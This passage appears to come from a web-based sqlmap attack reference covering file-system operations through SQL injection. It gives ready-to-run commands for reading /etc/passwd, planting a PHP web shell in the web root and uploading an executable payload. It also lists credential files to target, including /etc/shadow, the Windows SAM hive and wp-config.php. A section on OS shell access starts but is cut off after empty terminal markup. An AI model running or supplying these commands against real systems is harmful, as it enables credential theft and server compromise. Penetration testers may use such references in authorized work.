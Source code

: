 ### File System Operations

::: {.attack-vector .risk-high}
#### File System Access

::: code-block
    # Read system files
    python sqlmap.py -u "http://target.com/page?id=1" --file-read="/etc/passwd"

    # Write files to system
    python sqlmap.py -u "http://target.com/page?id=1" \
      --file-write="shell.php" --file-dest="/var/www/html/shell.php"

    # Upload binary files
    python sqlmap.py -u "http://target.com/page?id=1" \
      --file-write="payload.exe" --file-dest="C:\\temp\\payload.exe"

    # Common target files
    # Linux: /etc/passwd, /etc/shadow, /var/log/apache2/access.log
    # Windows: C:\\Windows\\System32\\config\\SAM, C:\\boot.ini
    # Web: ../../../etc/passwd, config.php, wp-config.php
:::
:::

### Operating System Shell Access

::: {.attack-vector .risk-high}
#### Command Execution

::: terminal-window
::: terminal-header
::: terminal-buttons
::: {.terminal-button .close}
:::

::: {.terminal-button .minimize}
:::

::: {.terminal-button .maximize}
:::
:::
